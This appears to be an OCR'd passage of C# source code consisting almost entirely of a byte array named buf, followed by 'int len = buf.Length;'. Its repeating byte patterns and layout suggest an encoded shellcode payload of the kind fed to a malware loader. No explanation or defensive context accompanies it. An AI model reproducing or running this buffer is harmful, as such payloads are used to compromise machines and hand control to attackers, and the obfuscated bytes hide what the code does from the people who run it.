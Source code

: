 ```csharp
            0xb1, 0x05, 0x05, 0x05, 0xa7, 0xb2, 0xcb, 0x21, 0xa9, 0xb3, 0x44, 0x8d, 0x93, 0x94, 0x93,
            0x94, 0x9f, 0x8e, 0xfa, 0xbb, 0xac, 0xb2, 0x73, 0x1b, 0xb3, 0x3d, 0x38, 0xb6, 0x8d, 0xdc,
            0xfd, 0x05, 0x2f, 0xa9, 0xa9, 0xb2, 0x73, 0x1b, 0xa9, 0xa0, 0xb7, 0xcb, 0x3a, 0xb7, 0xcb,
            0x33, 0xa9, 0xa9, 0xb3, 0x40, 0xc0, 0xac, 0x83, 0x5d, 0xfa, 0xfa, 0xfa, 0xfa, 0x05, 0x2f,
            0x12, 0xf7, 0xfa, 0xfa, 0xfa, 0xcb, 0xcd, 0xc8, 0xd4, 0xc8, 0xcb, 0xd4, 0xc8, 0xc9, 0xd4,
            0xcb, 0xca, 0xfa, 0xa0, 0xb2, 0x73, 0x3b, 0xb3, 0x3d, 0x3a, 0x41, 0xfb, 0xfa, 0xfa, 0xb7,
            0xcb, 0x33, 0xa9, 0xa9, 0x90, 0xf9, 0xa9, 0xb3, 0x40, 0xad, 0x73, 0x65, 0x3c, 0xfa, 0xfa,
            0xfa, 0xfa, 0x05, 0x2f, 0x12, 0x8e, 0xfa, 0xfa, 0xfa, 0xd5, 0xbd, 0x9b, 0xca, 0x91, 0xab,
            0xa5, 0xc3, 0xcc, 0xa3, 0xa3, 0xa0, 0xb0, 0xbb, 0xaf, 0x9d, 0xbe, 0xb1, 0xca, 0xca, 0xcb,
            0xb4, 0xab, 0x82, 0xb3, 0xae, 0xc9, 0xb4, 0xb2, 0x9d, 0xa3, 0xce, 0x9e, 0x8b, 0xbf, 0xcf,
            0xcc, 0x88, 0x80, 0x91, 0x8d, 0xa0, 0xae, 0x9d, 0xb9, 0x97, 0xcc, 0xcb, 0xaa, 0x91, 0x97,
            0xab, 0xab, 0xab, 0x92, 0x97, 0xa8, 0xa3, 0xb3, 0xb7, 0x97, 0xb6, 0x83, 0xa2, 0xad, 0xbb,
            0xcb, 0x8b, 0x89, 0xbc, 0x8d, 0xaa, 0x98, 0xcf, 0xbf, 0x80, 0xaf, 0xbc, 0xbe, 0xcd, 0xc3,
            0x91, 0xc3, 0xa9, 0x82, 0xca, 0xb4, 0xaa, 0x82, 0x9b, 0xc3, 0xce, 0xa0, 0x89, 0x95, 0xa2,
            0xcf, 0xb2, 0x9e, 0xa0, 0xb3, 0xa8, 0xb7, 0xb6, 0xa3, 0xa9, 0xa2, 0x9c, 0x96, 0x88, 0xd7,
            0xbc, 0x80, 0x93, 0xa3, 0xfa, 0xb2, 0x73, 0x3b, 0xa9, 0xa0, 0xbb, 0xa2, 0xb7, 0xcb, 0x33,
            0xa9, 0xb2, 0x42, 0xfa, 0xc8, 0x52, 0x7e, 0xfa, 0xfa, 0xfa, 0xfa, 0xaa, 0xa9, 0xa9, 0xb3,
            0x3d, 0x38, 0x11, 0xaf, 0xd4, 0xc1, 0x05, 0x2f, 0xb2, 0x73, 0x3c, 0x90, 0xf0, 0xa5, 0xb2,
            0x73, 0x0b, 0x90, 0xe5, 0xa0, 0xa8, 0x92, 0x7a, 0xc9, 0xfa, 0xfa, 0xb3, 0x73, 0x1a, 0x90,
            0xfe, 0xbb, 0xa3, 0xb3, 0x40, 0x8f, 0xbc, 0x64, 0x7c, 0xfa, 0xfa, 0xfa, 0xfa, 0x05, 0x2f,
            0xb7, 0xcb, 0x3a, 0xa9, 0xa0, 0xb2, 0x73, 0x0b, 0xb7, 0xcb, 0x33, 0xb7, 0xcb, 0x33, 0xa9,
            0xa9, 0xb3, 0x3d, 0x38, 0xd7, 0xfc, 0xe2, 0x81, 0x05, 0x2f, 0x7f, 0x3a, 0x8f, 0xe5, 0xb2,
            0x3d, 0x3b, 0x72, 0xe9, 0xfa, 0xfa, 0xb3, 0x40, 0xbe, 0x0a, 0xcf, 0x1a, 0xfa, 0xfa, 0xfa,
            0xfa, 0x05, 0x2f, 0xb2, 0x05, 0x35, 0x8e, 0xf8, 0x11, 0x50, 0x12, 0xaf, 0xfa, 0xfa, 0xfa,
            0xa9, 0xa3, 0x90, 0xba, 0xa0, 0xb3, 0x73, 0x2b, 0x3b, 0x18, 0xea, 0xb3, 0x3d, 0x3a, 0xfa,
            0xea, 0xfa, 0xfa, 0xb3, 0x40, 0xa2, 0x5e, 0xa9, 0x1f, 0xfa, 0xfa, 0xfa, 0xfa, 0x05, 0x2f,
            0xb2, 0x69, 0xa9, 0xa9, 0xb2, 0x73, 0x1d, 0xb2, 0x73, 0x0b, 0xb2, 0x73, 0x20, 0xb3, 0x3d,
            0x3a, 0xfa, 0xda, 0xfa, 0xfa, 0xb3, 0x73, 0x03, 0xb3, 0x40, 0xe8, 0x6c, 0x73, 0x18, 0xfa,
            0xfa, 0xfa, 0xfa, 0x05, 0x2f, 0xb2, 0x79, 0x3e, 0xda, 0x7f, 0x3a, 0x8e, 0x48, 0x9c, 0x71,
            0xfd, 0xb2, 0xfb, 0x39, 0x7f, 0x3a, 0x8f, 0x28, 0xa2, 0x39, 0xa2, 0x90, 0xfa, 0xa3, 0xb3,
            0x3d, 0x38, 0x0a, 0x4f, 0x58, 0xac, 0x05, 0x2f};
            int len = buf.Length;

```